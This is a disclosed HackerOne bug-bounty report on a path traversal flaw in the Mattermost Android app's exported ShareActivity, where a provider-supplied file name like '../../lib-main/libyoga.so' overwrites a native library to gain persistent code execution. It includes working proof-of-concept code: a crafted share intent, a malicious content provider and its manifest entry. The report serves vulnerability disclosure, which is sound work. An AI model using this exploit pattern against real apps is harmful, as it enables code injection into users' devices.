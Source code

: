 # Persistant Arbitrary code execution in mattermost android

## Report Details
- **Report ID**: 1115864
- **URL**: https://hackerone.com/reports/1115864
- **State**: Closed
- **Severity**: high
- **Submitted**: 2021-03-03T15:12:39.784Z
- **Disclosed**: 2021-06-03T10:40:12.940Z

## Reporter
- **Username**: hulkvision_
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: mattermost

## Vulnerability Information
## Summary:
Activity `com.mattermost.share.ShareActivity` is is exported and is designed to allow file sharing from third party application to mattermost android app.
```
 <activity android:theme="@style/AppTheme" android:label="@string/app_name" android:name="com.mattermost.share.ShareActivity" android:taskAffinity="com.mattermost.share" android:launchMode="singleInstance" android:screenOrientation="portrait" android:configChanges="keyboard|keyboardHidden|orientation|screenSize">
            <intent-filter>
                <action android:name="android.intent.action.SEND"/>
                <action android:name="android.intent.action.SEND_MULTIPLE"/>
                <category android:name="android.intent.category.DEFAULT"/>
                <data android:mimeType="*/*"/>
            </intent-filter>
        </activity>
```
I have found path tansversal vulnerability at `com.mattermost.share.RealPathUtil.java`  file 
```
public static String getPathFromSavingTempFile(Context context, final Uri uri) {
             int nameIndex = returnCursor.getColumnIndex(OpenableColumns.DISPLAY_NAME); //get file name here 
            returnCursor.moveToFirst();
            fileName = returnCursor.getString(nameIndex); // "filename=../../lib-main/libyoga.so"
        } catch (Exception e) {
            // just continue to get the filename with the last segment of the path
       }
             String mimeType = getMimeType(uri.getPath());
            tmpFile = new File(cacheDir, fileName);
            tmpFile.createNewFile();  //path transversal here
            ParcelFileDescriptor pfd = context.getContentResolver().openFileDescriptor(uri, "r"); 
            //.../
```
It receives  the value of _display_name from the provider and saved the file with this name, leading to path-traversal.
## Steps To Reproduce:
  1. Install the POC app and open it. F1216351

  On the next launch of the app the malicious code will be executed.In this poc the app will crash on next launch because i was too lazy and  to create a modified version of `libyoga.so`

### POC 
In `MainActivity.java`
```
        Intent intent = new Intent(Intent.ACTION_SEND);
        intent.setClassName("com.mattermost.rn", "com.mattermost.share.ShareActivity");
        intent.putExtra("android.intent.extra.STREAM",Uri.parse("content://com.example.android.pocok/?path=/data/data/com.example.android.pocok/libevil-lib.so&name=../../lib-main/libyoga.so"));
        intent.setType("application/*");
        startActivity(intent);

```
In `EvilContentProvider.java`
```
public Cursor query(Uri uri, String[] projection, String selection, String[] selectionArgs, String sortOrder) {
    MatrixCursor matrixCursor = new MatrixCursor(new String[]{"_display_name"});
    matrixCursor.addRow(new Object[]{uri.getQueryParameter("name")});
    return matrixCursor;
}

public ParcelFileDescriptor openFile(Uri uri, String mode) throws FileNotFoundException {
    return ParcelFileDescriptor.open(new File(uri.getQueryParameter("path")), ParcelFileDescriptor.MODE_READ_ONLY);
}
```
In `AndroidManifest.xml`
```
<provider android:name=".EvilContentProvider" android:authorities="com.example.android.pocok" android:enabled="true" android:exported="true" />
```

## Impact

Attacker can inject malicious library file in the application which will lead to arbitrary code execution in the app.

## Attachments
- app-release.apk

